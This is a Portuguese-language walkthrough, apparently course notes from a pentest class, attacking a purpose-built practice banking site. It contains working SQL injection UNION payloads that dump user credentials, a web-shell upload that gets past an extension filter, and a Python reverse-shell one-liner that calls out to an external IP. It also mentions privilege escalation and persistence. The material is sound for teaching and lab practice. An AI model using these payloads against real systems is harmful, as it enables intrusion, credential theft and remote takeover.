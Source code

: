﻿# Introdução ao Hacking e Pentest

Estas são as anotações das partes práticas do curso [Introdução ao Hacking e Pentest](https://solyd.com.br/ead/course/introducao-ao-hacking-e-pentest/) oferecido pela Solyd. Todos os passos são executados no site desenvolvido exclusivamente para isso: http://www.bancocn.com.

## Exploração

Nesta etapa o mais importante que temos a descobrir é:
- Se usarmos <code>'</code> como id no URL, recebemos um erro de sintaxe do SQL, então podemos tentar explorar vulnerabilidades do SQL;
- Pelo arquivo /robots.txt, descobrimos a existência da página /admin.

## SQL Injection

Vamos descobrir quantas colunas tem usando o comando SQL ORDER BY Keyword, ele é usado para ordenar os resultados em ordem ascendente ou descendente de acordo com os valores de determinada coluna.
Então por exemplo se queremos ordenar o resultado o resultado pelos valores da coluna 1 e comentar o que viria depois do código usando --, então vamos passar <code>1 ORDER BY 1--</code>. Vamos inserir os comandos sempre após <code>www.bancocn.com/cat.php?id=</code>.
<pre> 
1 ORDER BY 1-- :ok
1 ORDER BY 2-- :ok
1 ORDER BY 3-- :ok
1 ORDER BY 4-- : Unknown column '4' in 'order clause'
</pre>

Então agora sabemos que temos 3 colunas. O comando UNION é usado para combinar o resultados de múltiplos SELECTS, então vamos adicionar uma linha ao resultado.  Vai ser adicionado no final do resultado, mas ele lê o primeiro resultado, então vamos usar o sinal negativo para inverter a ordem dos resultados, por exemplo: <code>-1 UNION SELECT 1,2,3</code>. Podemos usar então database() para obtermos o nome do banco de dados onde as informações são exibidas na tela: 

<code>-1 UNION SELECT 1,2,database()</code>.

Com isso sabemos o nome do nosso banco de dados: bancocn. Para sabermos todas tabelas do banco de dados podemos usar: 

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="bancocn"</code>

Basicamente, estamos inserindo uma linha onde as duas primeiras colunas são 1 e 2 respectivamente, e o terceiro que é o que será exibido na tela, então concatenamos o resultado, que é a busca na tabela tables no banco de dados information_schema que pertence ao banco de dados bancocn, de acordo com o valor na coluna table_schema.

Obtemos agora os nomes das tabelas do nosso banco de dados: categories,pictures,stats,users. Então com os nomes das tabelas escolhemos ver melhor a tabela users, usando um código parecido:

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="bancocn" AND table_name="users"</code>

As colunas são: id,login,password. Então agora olhamos a tabela das colunas e olhamos onde o banco de dados é bancocn e a tabela é users.

Então podemos agora simplesmente exibir, o login senha:
- <code>-1 UNION SELECT 1,2, login FROM bancocn.users</code>
- <code>-1 UNION SELECT 1,2, password FROM bancocn.users</code>

Obtemos então o usuário (admin) e a senha (7b71be0e85318117d2e514ce2a2e222c).

Testamos uma criptografia padrão (MD5), usando o [MD5 Decrypter](https://www.md5online.org/) desciptografamos a senha (senhafoda) e conseguimos acesso ao painel de admin descoberto anteriormente.

## Shell reversa

Olhando a estrutura dos endereços das imagens carregadas, podemos acessar o diretório dos arquivos /admin/uploads. Lá podemos então abrir um arquivo com extensão php que enviaremos ao servidor.

Aproveitando que possui um filtro de extensões que barra arquivos .php, mas permite .php5, vamos carregar um arquivo PHP5 (terminal.php5) que recebe comandos e os executa no terminal.  Por exemplo para rodar um <code>ls </code> poderíamos usar:
<code>?comando=ls</code>, então o endereço de forma completa ficaria <code>/admin/uploads/terminal.php5?comando=ls</code>.

Neste ponto, já temos acesso ao computador, mas é mais eficiente utilizarmos uma shell reversa. Uma versão em python pode ser retirada do [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

<code>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("179.189.157.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>

Substituimos o IP pelo endereço da nossa máquina, que pode ser visto em [What is my IP](https://whatismyip.com.br/) por exemplo. Agora podemos utilizar o netcat ([versão para Windows](https://eternallybored.org/misc/netcat/) disponibilizado por Jernej Simoncic) para enviar comandos para nossa máquina.

Neste ponto, nós invadimos o servidor web e podemos ir pro processo de pós-exploração.

## Pós-Exploração

Para termos um pouco mais de liberdade, podemos tentar utilizar o módulo do python chamado pty (Pseudo Teletype) para obtermos algo como um TTY(Teletype). Ele possui uma função chamada spawn que segundo sua descrição "cria um processo e conecta seu terminal de controle com a entrada e saída padrão do atual processo. Isso é normalmente usado para confundir programas que insistem em ler do terminal de controle."

<code> python -c "import pty; pty.spawn('/bin/bash')" </code>

Ou seja, um pseudo-terminal, ao invés de comunicar diretamente com um "terminal real", transfere a entrada e saída para outro programa. A ideia é avançar de nosso shell básico, para algo como um TTY. 

Após isso podemos explorar vulnerabilidades para ganhar privilégios, como a [Dirty COW](https://dirtycow.ninja/) que está no kernel Linux desde 2007 e foi anunciado uma correção em 2016. Podemos buscar também configurar para que o servidor seja inicializado sozinho, por exemplo editando o arquivo <code>.bashrc</code>.

Também podemos buscar outras máquinas na rede que tenham vulnerabililidades ou que nossa máquina atual tenha acesso, com por exemplos chaves SSH.

# Bônus: construindo a Shell Reversa

Vamos olhar trecho a trecho o código em python que passamos em uma linha para rodar nossa shell reversa. Criamos um script python chamado [clienteTCP](https://github.com/SapoGitHub/Repositorio-Geral/blob/master/Introdu%C3%A7%C3%A3o%20ao%20Hacking%20e%20Pentest/clienteTCP.py) melhor comentado para esta tarefa.

Primeiro, soquete é o ponto-final de um fluxo de comunicação entre 2 aplicativos através da rede. Portanto para 2 aplicativos temos 2 pontos finais, chamados normalmente de
- Servidor: considerado a máquina 'principal', ela envia os comandos ;
- Cliente: responsável por se conectar no servidor e receber e executa comandos.

Queremos então criarmos um cliente para rodar em nossa máquina. Para isso precisamos definir algumas coisas:
- A representação do endereço (Família de protocolo): Usamos o AF_INET (domínio da internet) é uma família de endereços onde usamos um par de valores: (servidor, porta), onde:
	- servidor: é um hostname de um domínio de internet (daring.cwi.nl) ou um endereço IP;
	- porta: um inteiro.
- Tipo: especifica a semântica da comunicação e usamos o SOCK_STREAM que fornece uma conexão sequencial, confiável e bidirecional. Ela indica que nosso soquete vai ser do tipo TCP.

Definido o protocolo que vamos utilizar para o envio de informações e como vamos representar o endereço, podemos então fornecer o IP e porta para se conectar ao nosso servidor.

```
soquete=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  #Configura o socket
soquete.connect(("127.0.0.1",6666))                       #Conecta em nosso servidor
```

O próximo passo é lidarmos com os descritores de arquivos, isto é um indicador abstrato para acessar um arquivo. Cada processo Unix tem três descritores de arquivos padrões, representados por inteiros:
- 0: Entrada padrão;
- 1: Saída padrão;
- 2: Erro padrão.

Então o nosso próximo passo, é pegarmos o descritor de arquivo do soquete, fazemos isso com o comando:

<code>das=soquete.fileno()                                        #Retorna o descritor do soquete</code>

E fazermos os descritores de arquivo padrões indicarem para o mesmo lugar, ou seja, o soquete:
```
os.dup2(das,0)						#Duplica o descritor 'das' para 0                                    
os.dup2(das,1)						#Duplica o descritor 'das' para 1
os.dup2(das,2)						#Duplica o descritor 'das' para 2
```

Agora então, as entradas e saídas de nosso processo serão recebidas e enviadas através do nosso soquete, ou seja a comunicação é feita com nosso servidor. Por fim, nos falta executar de fato a shell(<code>/bin/sh</code>) apenas:

<code>subprocess.call(["/bin/sh"])			#Executamos a shell</code>

Ainda podemos usar o argumento <code>-i</code> para forar a shell a rodar de interativo. Nesse caso usaríamos <code>subprocess.call(["/bin/sh","-i"])</code>. 